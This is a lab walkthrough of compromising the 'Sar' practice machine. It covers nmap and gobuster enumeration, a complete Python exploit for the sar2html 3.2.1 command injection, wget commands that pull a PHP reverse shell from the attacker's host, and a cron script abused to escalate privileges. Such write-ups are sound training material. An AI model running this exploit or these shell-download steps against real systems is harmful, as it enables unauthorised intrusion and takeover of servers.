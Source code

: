 Sar

## Methodology and summary
## Table of Contents
1. [Information Gathering]()
	1.1. [Discovery host]()
	1.2. [Service Enum]()
	1.3. [Web]()
		1.3.1. [Gobuster]()
		1.3.2. [1.3.2 Robots.txt and Sar2html]()

2. [Exploitation]()
	2.1 [2.2 Coded exploit to gain RCE]()

3. [Post exploitation]()
	3.1. [First user]()
	3.2. [Getting root with openssl]()

---
# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![42ab379f6a809ffe8484917aae278ebe.png](./_resources/7f72f5ad47394c36aab2a2a04e0849d3.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.131 -oN full_service_enum-sC.txt`
![99077d6337566a9dacfab871978e6f68.png](./_resources/ceac9e71650746b3b84bffa8119c058c.png)

`nmap -sV -sU -F  -oN udp-sC-sV.txt`
![b5040109f53646d85e2ba4b39ab82df1.png](./_resources/e22b29ee7b444b57abe4e663f9ac0a1a.png)

## 1.3 Web
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.196.131 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o info.txt`

### 1.3.2 Robots.txt and Sar2html
![fefda24968698a6f7a9db52a94e6cd60.png](./_resources/d4db09a2e93e4504aecaf68778e4bc31.png)
![10734a64042b69ed98f6b07cf2684102.png](./_resources/936510b6e8f74c6b8af7146f059f0abe.png)
For this app there are public exploits, but let's code it.

# 2 Exploitation (Testing for Command Injection - WSTG-INPV-12)
## 2.2 Coded exploit to gain RCE
Firts we should know what point of the source code is vulnerable:
![2824569ae5baa951aacf73ee2dc796eb.png](./_resources/2b1aa54a0f5c49d283aba80292cc012c.png)
![ea782e47d8895a5985e6d0f4356bcef0.png](./_resources/b1c080a4aea34f0a9b6743cf8879b46b.png)
The variable `plot` receive as GET method and concatenated into php vulnerable exec function. The argument for this command must be sanitized

Code:
```
# Script para php command injection - sar2html Ver 3.2.1 - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-
import requests
import re


def command_(command):
    #target = "https://192.168.196.131"
    target = ""
    
    cookies = {
        'PHPSESSID': '',
    }

    headers = {
        'Host': '192.168.196.131',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0',
    }

    params = (
    ('plot', ';'+command),
    )

    try:
        response = requests.get(target+'/sar2HTML/index.php', headers=headers, params=params, cookies=cookies, verify=False)
    except:
        print ("Connection error!")
    
    try:
        receive = re.findall("<option value=(.*?)>", response.text)
    except:
        print ("Error!")
    
    for i in receive:
	    if "There is no defined host..." not in i:
		    if "null selected" not in i:
		        if "selected" not in i:
		            print (i)
def main():
    while True:
        command = raw_input("[+] Shell ->:  ")
        command_(command)


main()
```
![80d9ab120a31979e93af5cdcc8e1b5d8.png](./_resources/0953e5d9aa1b425da61ca422c4289beb.png)

## 2.2 PHP Reverse shell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Download and edit the php reverse shell for point your ip and port.
`python3 -m http.server 8090` <- on the platform
`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target for rev shell download

Now you might execute it:
![c7908850dfc35583155688c7acffc4ec.png](./_resources/f7cca70b48754647a656cc9ba104f4af.png)
![974a4a55bd0d9d8186c7b86c52fd53ef.png](./_resources/12ac04997f3341c09a0ea8870ba5f323.png)


# 3 Post-exploitation (crontab abuse)
LinEnum.sh reveals some good information:
![ea46b5015f3eca4b40616d29dd23968c.png](./_resources/b01401b6ee2546cc83c2fb57fde3d8f4.png)
![5151113f8bd7b5dfaac69486e06e73e0.png](./_resources/a17774987f9349c4b8202d74fc6d4f02.png)

Let's edit write.sh file to gain shell:
`python3 -m http.server 8090` <- on the kali
`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target
`echo "php ./php-reverse-shell.php" >> write.sh` <- on the target
![54a351a9644ded50d5cf9af4934e55cb.png](./_resources/d23c9d3441f24410827b583b35e0f9c1.png)